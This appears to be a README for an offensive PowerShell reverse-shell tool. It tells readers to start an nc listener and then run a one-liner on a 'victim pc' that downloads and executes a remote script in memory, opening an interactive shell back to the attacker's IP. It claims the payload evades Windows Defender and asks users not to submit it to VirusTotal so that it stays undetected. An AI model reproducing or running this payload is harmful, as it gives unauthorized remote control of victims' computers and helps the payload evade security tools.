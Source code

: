 <img src="https://img.shields.io/badge/PowerShell-%E2%89%A5%20v3.0-blue">

# INSTRUCTIONS : - 
<br>
1.) Run [nc -nlvp 'port'] on your terminal to start up a listener.
<br>
2.) Open powershell on the victim pc and type <br> 
IEX (IWR 'https://raw.githubusercontent.com/anonymous300502/powershell_payload/main/test.ps1' -UseBasicParsing) | Invoke-DopeShell "IP" "PORT". Enter the IP ADDR and PORT of YOUR machine from where you are listening.

## This will spawn a interactive shell with the target pc and run in memory to evade AV 
### Currently undetectable by the latest updated version of windows defender on Win 11 ( last tested on 17:00 IST June 13th 2024) 

Please dont upload the script on virus total :) 
